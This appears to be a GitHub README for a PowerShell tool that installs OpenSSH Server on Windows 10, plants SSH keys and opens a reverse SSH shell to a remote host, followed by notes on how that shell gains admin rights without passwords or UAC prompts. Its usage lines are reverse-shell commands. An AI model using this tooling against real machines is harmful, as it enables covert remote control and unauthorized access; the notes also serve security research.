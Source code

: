 # lol-reverseSSHell.ps1
Living Off the LAN Reverse Shell over SSH

This script is intended to make SSH reverse shells easier to initiate on Windows 10. It will install OpenSSH Server (if missing) on Windows 10 via WindowsCapability (DISM). * If OpenSSH server is missing, the script will attempt to download OpenSSH server from Microsoft. Then it will copy the sshd_config file, SSH private key, and authorized_keys files from the repo's root to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell served is CMD.exe by default. Once you're in the cmd.exe cli, you can type 'powershell' to get a PS shell. 

* Please generate NEW SSH KEYs. Use the repo keys only for testing. 

Usage: 
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 7777 -InstallOpenSSHServer yes 
* get-help .\lol-reverseSSHell.ps1 

* get-help .\lol-reverseSSHell.ps1 -Examples

Remote cmd.exe in a bash terminal via ssh: 
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)
Remotely executing commands via cmd.exe and powershell:  
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image02.png?raw=true)

Unix vs Windows Reverse SSH Shells, and the Interesting Security Implications for Windows Users
-----------------------------------------------------------------------------------------------
Running list as I do research: 
* Unknown usernames are OK - Once you have a reverse connection, Windows does NOT require knowing the username to authenticate to a shell when using keypair authentication. A simple call to localhost and port will connect to a shell under the context of the user that initiated the reverse ssh connection. 
  
  --- Windows Example --- ssh localhost -p `<localport>`  
  --- Unix Example --------- ssh user123@localhost -p `<localport>` 
   
* Admin privleges - Because the shell is ran using admin privleges, and most Windows users run as privleged users, the shell will have admin privleges without ever needing to know the user's name or admin password. After a shell has been initiated, there are no password prompts or UAC alerts to prevent commands from being ran with elevated privleges. Almost equivlent to a root shell in Unix. Which means you can browse the entire file system and modify system files without permissions issues.  

